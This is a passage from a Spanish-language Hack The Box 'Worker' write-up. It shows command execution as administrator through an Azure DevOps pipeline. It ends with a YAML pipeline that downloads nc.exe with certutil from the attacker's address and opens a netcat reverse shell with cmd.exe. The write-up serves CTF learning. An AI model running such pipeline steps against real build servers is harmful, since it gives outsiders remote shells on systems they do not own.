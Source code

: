**Save and run** > **Save and run**...

![270pagedevo_rob_createpipe7](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/worker/270pagedevo_rob_createpipe7.png)

Y si revisamos la tarea que se llama `CmdLine` tenemos la respuesta del sistema:

![270pagedevo_rob_pipewhoami](https://raw.githubusercontent.com/lanzt/blog/main/assets/images/HTB/worker/270pagedevo_rob_pipewhoami.png)

Perfecto, tenemos ejecución de comandos en el sistema como administrador... Entablemos una reverse shell (:

```yml
trigger:
- master

pool: 'Setup'

steps:
- script: 'certutil.exe -f -urlcache -split http://10.10.14.202:8000/nc.exe c:\Windows\Temp\nc.exe'

- script: 'c:\Windows\Temp\nc.exe 10.10.14.202 4434 -e cmd.exe'

- script: echo Hello, world!
  displayName: 'Run a one-line script'
```